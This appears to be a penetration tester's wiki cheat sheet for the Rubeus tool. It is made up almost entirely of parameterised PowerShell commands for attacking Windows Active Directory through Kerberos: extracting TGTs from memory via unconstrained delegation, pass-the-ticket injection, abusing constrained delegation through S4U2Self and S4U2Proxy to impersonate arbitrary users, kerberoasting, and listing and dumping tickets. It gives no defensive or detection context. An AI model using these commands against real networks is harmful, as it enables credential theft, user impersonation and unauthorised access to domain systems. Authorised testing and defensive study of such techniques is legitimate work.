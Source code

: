# [Rubeus](https://github.com/GhostPack/Rubeus)

---

## [Usage & Flags for Each of Rubeus's Commands](https://github.com/GhostPack/Rubeus)

---

## Listen for and Extract TGTs from Memory at a Particular Interval (Exploiting [[unconstrained-delegation|Unconstrained Delegation]])

Must be executed in the context of `NT AUTHORITY/SYSTEM`.

```powershell
Rubeus.exe monitor /monitorinterval:"$INTERVAL_IN_SECONDS" [/runfor:"$NUMBER_OF_SECONDS_TO_RUN_FOR"]
```

---

## Inject a Kerberos ticket into the Current Context to Execute a [[pass-the-ticket|Pass the Ticket]] Attack

```powershell
Rubeus.exe ptt /ticket:$TICKET
```

- `$TICKET` can either be a base64-encoded TGT or service ticket string or a path to a file containing the TGT or service ticket

---

## Abuse a [[constrained-delegation|Constrained Delegation]] Privilege to Generate a Service Ticket for Any User to a Host for which a SPN is Configured

### 1. Retrieve a TGT for the principal configured with constrained delegation

```powershell
Rubeus.exe [/domain:"$DOMAIN"] /user:"$USERNAME" [/rc4:"$RC4"] [/aes128:"$AES128"] [/aes256:"$AES256"] [/des:"$DES"] [/password:"$PASSWORD"] [/dc:$DOMAIN_CONTROLLER_FQDN_OR_IP] 
```

- `$DOMAIN/$USER` is the domain and username of the principal who has the constrained delegation privilege on `$SPN`
- `$RC4`, `$AES128`, `$AES256`, `$DES`, or `$PASSWORD` is the credential of the principal who has the constrained delegation privilege on `$SPN`

### 2. Retrieve a service ticket for the user to impersonate to the principal configured with constrained delegation (S4U2Self)

```powershell
Rubeus.exe s4u [/ticket:"$TGT"] /impersonateuser:"$USER_TO_IMPERSONATE"
```

- `$TGT` was generated in step \#1
	- Either the base64-encoded string or a path to a file containing the ticket

### 3. Retrieve a service ticket for the user to impersonate to one of the SPNs available to the principal configured with constrained delegation (S4U2Proxy)

```powershell
Rubeus.exe s4u [/ticket:"$TGT"] /msdsspn:"$SPN" /tgs:"$SERVICE_TICKET" [/altservice:"$ALTERNATIVE_SERVICE"] [/ptt]
```

- `$SPN`: [[service-principal-name|SPN]] to retrieve the new service ticket for
- `$SERVICE_TICKET` from step \#2
	- Either the base64-encoded string or a path to a file containing the ticket
- `$ALTERNATIVE_SERVICE`: an alternative service to create the new service ticket for, instead of the service from the `$SPN` (i.e., `cifs`, `ldap`, etc.)
- `/ptt` will inject the ticket into the current context. Otherwise, print it to `stdout`


### 4. [[windows/active-directory/tools/rubeus#Inject a Kerberos ticket into the Current Context to Execute a pass-the-ticket Pass the Ticket Attack|Inject the ticket into the current context to execute a pass the ticket attack]]

---

## Generate the RC4 HMAC of a Domain Account's Password

```powershell
Rubeus.exe hash /password:$PASSWORD /user:$USERNAME /domain:$DOMAIN
```

---

## Kerberoast all Kerberoastable Users

```powershell
Rubeus.exe kerberoast
```

---

## List All Accessible Kerberos Tickets

```powershell
Rubeus.exe triage
```

---

## Dump an Accessible Kerberos Ticket

```powershell
Rubeus.exe dump /service:$SERVICE_ONLY_OF_TICKETS_SPN /luid:$LUID /nowrap
```

- Example `$SERVICE_ONLY_OF_TICKETS_SPN` would be `krbtgt` for a TGT

---

## Spawn New Process within New Logon Session

```powershell
Rubeus.exe createnetonly /program:$PATH_TO_PROGRAM
```

The tickets you see will depend on your current context. Local administrators can see all tickets. Regular users can only see their own.

---

## Inject Kerberos Ticket into Logon Session

```powershell
Rubeus.exe ptt /luid:$LUID /ticket:$TICKET_BASE64_STRING
```

- `$LUID` is the logon session's ID
